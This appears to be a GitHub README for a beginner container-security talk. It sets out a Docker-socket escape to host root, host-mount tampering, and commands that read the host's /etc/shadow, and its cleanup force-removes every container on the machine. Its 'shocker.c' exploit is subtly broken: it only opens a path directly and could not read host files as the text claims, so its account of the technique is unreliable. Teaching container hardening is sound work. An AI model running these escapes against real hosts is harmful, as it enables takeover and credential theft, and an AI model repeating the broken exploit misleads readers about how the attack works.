



# Container Security Talk: A Beginner's Guide to Container Escapes

## Prerequisites

### System Requirements
- Dockerhub account
- Docker installed (latest version)
- Docker basics

### Software Installation
```bash
# Install Docker if not already installed
sudo apt-get update
sudo apt-get install -y docker.io

# Start and enable Docker
sudo systemctl start docker
sudo systemctl enable docker

# Add your user to docker group (optional, for convenience)
sudo usermod -aG docker $USER
# Note: You'll need to log out and back in for this to take effect
```

## Intro to containers


## Linux Capabilities

### 1. What are Linux capabilities?
```bash
# Ejemplo: Ver capabilities actuales
capsh --print

# Ejemplo: Contenedor sin capabilities
docker run --cap-drop=ALL nginx
```
### 2. Critic Capabilities
```bash
# Capabilities más peligrosos:
CAP_SYS_ADMIN        # Operaciones administrativas del sistema
CAP_NET_ADMIN        # Configuración de red
CAP_SYS_MODULE       # Cargar módulos del kernel
CAP_SYS_PTRACE       # Depurar procesos
CAP_SYS_CHROOT       # Usar chroot()
CAP_NET_RAW          # Usar raw sockets
CAP_SETUID           # Cambiar UID
CAP_SETGID           # Cambiar GID
CAP_MKNOD            # Crear archivos especiales
CAP_AUDIT_WRITE      # Escribir registros de auditoría
CAP_AUDIT_CONTROL    # Configurar auditoría
CAP_DAC_READ_SEARCH  # DAC_READ_SEARCH allows reading files without permission
```

### 3. Lab: Exploring capabilities
```bash
# Ver capabilities de un contenedor
docker inspect container_name | grep -A 10 CapAdd

# Agregar capabilities específicos
docker run --cap-add=SYS_ADMIN ubuntu

# Quitar todos y agregar solo los necesarios
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE nginx
```

### 4. Docker Lab:

- [security-capabilities](https://training.play-with-docker.com/security-capabilities/)

## Real-World Scenarios Where These Vulnerabilities Occur

### 1. CI/CD Environments - Docker Socket Exposure
#### Jenkins Docker Builds
```yaml
# Common Jenkins Docker configuration
version: '3'
services:
  jenkins:
    image: jenkins/jenkins:lts
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock  # Vulnerability: Docker socket mounted
      - jenkins_home:/var/jenkins_home
    ports:
      - "8080:8080"
```



**Why It Happens:**
- Jenkins needs to build Docker images
- Jenkins runs Docker commands on the host
- Teams want to avoid "Docker-in-Docker"
- CI/CD needs host access for container management

**Impact:**
- Attackers can escape to host via socket
- Full control over host Docker daemon
- Ability to access other containers

### 2. Monitoring Solutions - Host Filesystem Access
#### Prometheus Node Exporter
```yaml
version: '3'
services:
  node-exporter:
    image: prom/node-exporter
    volumes:
      - /proc:/host/proc:ro  # Vulnerability: Host filesystem access
      - /sys:/host/sys:ro
      - /:/rootfs:ro
```
**Why It Happens:**
- Monitoring tools need system metrics
- Host filesystem access required for stats
- Performance data collection

**Impact:**
- Access to host system information
- Potential read access to sensitive files
- System reconnaissance capabilities

### 3. Development Environments - Secret Exposure
#### Local Development Setup
```yaml
version: '3'
services:
  dev-container:
    image: ubuntu:latest
    volumes:
      - ~/.aws:/root/.aws:ro  # Vulnerability: Host secrets mounted
      - ~/.ssh:/root/.ssh:ro  # Vulnerability: SSH keys mounted
      - .:/app
```


**Why It Happens:**
- Developers need access to credentials
- Local development convenience
- Quick testing and iteration

**Impact:**
- Exposure of AWS credentials
- SSH key compromise
- Access to sensitive configurations

## Exploitation Demonstrations

### Demo 1: Docker Socket Exploitation

#### Setup
```bash
# Create a vulnerable container with mounted Docker socket
docker run -it --rm \
  -v /var/run/docker.sock:/var/run/docker.sock \
  ubuntu:latest

# Inside the container, install Docker CLI
apt-get update
apt-get install -y \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null
apt-get update
apt-get install -y docker-ce-cli
```

#### Exploitation Steps
```bash
# Show that we're in a container
hostname
cat /proc/1/cgroup

# List all containers from inside the container
docker ps

# Create a privileged container that mounts host filesystem
docker run -it --privileged \
  -v /:/host \
  ubuntu:latest chroot /host

# You're now effectively on the host system
# Show some examples:
cat /etc/hostname  # Host's hostname
ps aux  # Host's processes
```

### Demo 2: Host Filesystem Access

#### Setup
```bash
# Create a directory with test files
mkdir ~/host-files
echo "sensitive data" > ~/host-files/sensitive.txt
echo "password123" > ~/host-files/credentials.txt

# Start container with mounted host directory
docker run -it --rm \
  -v ~/host-files:/data \
  ubuntu:latest
```

#### Exploitation Steps
```bash
# Inside the container
ls /data
cat /data/sensitive.txt
cat /data/credentials.txt

# Show write access
echo "Compromised" > /data/sensitive.txt

# Exit container and verify changes on host
exit
cat ~/host-files/sensitive.txt
```

### Demo 3: Reading Host Secrets

#### Setup
```bash
# Create a container with DAC_READ_SEARCH capability
docker run -it --rm \
  --cap-add=DAC_READ_SEARCH \
  ubuntu:latest

# Inside container, install required tools
apt-get update
apt-get install -y \
  gcc \
  make \
  vim
```

#### Create Exploit Code
```bash
# Inside container, create shocker.c
cat << 'EOF' > shocker.c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

struct linux_dirent64 {
    uint64_t        d_ino;
    int64_t         d_off;
    unsigned short  d_reclen;
    unsigned char   d_type;
    char           d_name[];
};

#define BUF_SIZE 1024

int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Usage: %s /path/on/host /path/in/container\n", argv[0]);
        return 1;
    }
    
    int fd = open(argv[1], O_RDONLY);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    FILE *output = fopen(argv[2], "w");
    if (!output) {
        perror("fopen");
        close(fd);
        return 1;
    }

    char buf[BUF_SIZE];
    ssize_t bytes_read;
    while ((bytes_read = read(fd, buf, BUF_SIZE)) > 0) {
        fwrite(buf, 1, bytes_read, output);
    }

    fclose(output);
    close(fd);
    return 0;
}
EOF

# Compile the exploit
gcc -o shocker shocker.c
```

#### Exploitation Steps
```bash
# Try to read host's passwd file
./shocker /etc/passwd container_passwd
cat container_passwd

# Try to read shadow file
./shocker /etc/shadow container_shadow
cat container_shadow
```

## Best Practices Section

### Security Checklist
1. Container Configuration
```bash
# Good: Run container without special privileges
docker run -it --rm ubuntu:latest

# Bad: Running privileged container
docker run -it --rm --privileged ubuntu:latest

# Good: Read-only volume mount
docker run -it --rm -v ~/data:/data:ro ubuntu:latest

# Bad: Writable mount of sensitive directory
docker run -it --rm -v /:/host ubuntu:latest
```

### Risk Mitigation Strategies
1. For CI/CD Environments:
   - Use BuildKit's rootless mode
   - Implement dedicated build agents
   - Use minimal base images

2. For Monitoring Solutions:
   - Use container runtime metrics
   - Implement cgroup-based monitoring
   - Use dedicated monitoring sidecars

3. For Development Environments:
   - Use development-specific credentials
   - Implement secrets management systems
   - Use environment variables instead of mounted files


## Additional Resources
- Docker Security: https://docs.docker.com/engine/security/
- Container Security Best Practices: https://snyk.io/learn/container-security/
- Linux Capabilities: https://man7.org/linux/man-pages/man7/capabilities.7.html

## Clean Up
```bash
# Remove all demo containers
docker rm -f $(docker ps -aq)

# Remove demo files
rm -rf ~/container-security-demo
rm -rf ~/host-files

# Reset Docker socket permissions if changed
sudo chmod 660 /var/run/docker.sock
```